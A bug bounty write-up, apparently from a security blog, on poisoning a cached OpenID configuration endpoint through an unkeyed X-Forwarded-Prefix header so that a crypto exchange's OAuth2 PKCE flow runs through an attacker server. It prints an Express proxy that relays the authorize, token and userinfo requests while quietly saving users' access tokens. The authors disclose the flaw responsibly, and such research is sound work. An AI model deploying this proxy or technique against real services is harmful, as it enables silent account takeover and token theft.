# How we MITM'd a crypto exchange platform via cache poisoning


A friend of mine, [0xdln](https://x.com/0xdln), reached out to me with a cache poisoning issue on an OpenID autoconfiguration endpoint - `/.well-known/openid-configuration`, on a public program on [Bugcrowd](https://www.bugcrowd.com), that he was struggling to showcase an impact, so we decided to dig deeper.
<!--more-->


### Cache poisoning

So the website was using `X-Forwarded-Prefix` unkeyed header to append the header's value to URLs in `/.well-known/openid-configuration` openID autoconfiguration endpoint. 



And, it was being cached by Cloudflare, as it was not in the cache key.



The question was: What can we do with this behavior?

### Finding references

We started looking for references to see if the client apps use the autoconfiguration provided by the config file. We have set up a breakpoint in fetch calls for anything that contained `openid-configuration`.



And, surely so, we saw a request being made to it.



And the callstack lead to `onAuthCallback` confirming that it is being utilized for exchanging the code.



Now that we had the confidence that it was being used, we decided to create a flow where we could utilize the cache poisoning to steal users' tokens. But before moving forward with MiTMing process, let's see where we can snoop in the OAuth2 flow.


### OAuth2 flow


The website is utilizing OAuth2 authorization code flow with [PKCE](https://oauth.net/2/pkce/). Usually, the authorization code flow looks like the following.




1. User initiates login flow on the client application.
2. Client application redirects to the authorization endpoint at the authorization Server.
3. If the user is not yet authenticated, the user is redirected to the authentication server, logs in, and authorizes the application.
4. The Authorization Server issues the authorization code and redirects the user to the client application.
5. The client application backend makes a POST request to the token endpoint with the authorization code and client credentials.
6. The Authorization Server validates the code and the credentials. It returns an access token to the application server.

Luckily, the client was using PKCE, which looks like the following.



As we can see, the client secret is not usually required to exchange the token (for public clients); instead, the client app generates a code verifier and a challenge for it to be later verified when exchanging the code for the token. This means we could sniff the code and exchange the code for an access token ourselves and remain completely invisible to the user.

### MiTMing process

We have previously verified that the OpenID configuration endpoint was being fetched and processed by the client application. We have also verified that OAuth2 endpoints like `authorization_endpoint`, `token_endpoint`, and `userinfo_endpoint` were indeed being set by the poisoned configuration file.



Now it was time to create a server, such that:
- Would intercept the generated code challenge and state, and move it forward to the real authorization server, 
- The authorization server would then redirect the user with the code to the client,
- The Client would then try to exchange the code with the server (`token_endpoint`) that is also set in the poisoned configuration file,
- We would receive the code, exchange the code for a token ourselves, steal the token, but also give the access token back to the user to stay completely invisible.

To do that, we created a simple [Express](https://expressjs.com/) server.

```javascript
...
app.get("/authorize", (req, res) => {
  const params = new URLSearchParams(req.query);
  const upstreamURL = `https://example.com/authorize?${params.toString()}`;
  res.redirect(upstreamURL);
});

app.post("/token", async (req, res) => {
  const { body } = req;
  try {
    const upstream = await fetch("https://example.com/token", {
      method:  "POST",
      headers: { "Content-Type": "application/json" },
      body
    });
    const payload = await upstream.json();
    storage.save(payload);
    res.status(upstream.status).json(payload);
  } catch (err) {
    res.status(502).json({ error: "upstream_error", error_description: err.message });
  }
});

app.get("/userinfo", async (req, res) => {
  const authHeader = req.headers["authorization"];
  if (!authHeader) {
    return res.status(401).json({ error: "missing_token" });
  }
  try {
    const upstream = await fetch("https://example.com/userinfo", {
      headers: { Authorization: authHeader },
    });
    const payload = await upstream.json();
    res.status(upstream.status).json(payload);
  } catch (err) {
    res.status(502).json({ error: "upstream_error", error_description: err.message });
  }
});
...
```

But, as we had ethical intentions and did not want to actually steal anybody's tokens, we showcased the impact by poisoning the configuration with a cache buster and verified it by a proxy [match and replace rule](https://portswigger.net/burp/documentation/desktop/tools/proxy/match-and-replace).



This made the team wonder if it was actually possible to poison the main configuration endpoint, not the cache buster one. So we tried to safely poison in a way that the endpoints would point to the original server.



However, Firefox users got a prompt asking them to confirm if they wanted to navigate to the website. 



Luckily, it did not raise a panic, and we were good to go.


### Reporting and results

We reported the report through Bugcrowd, and after a month and about 40 comments, we were finally able to get the issue triaged 😅.



The program team was much quicker, however, and the issue was fixed within a day after confirmation.


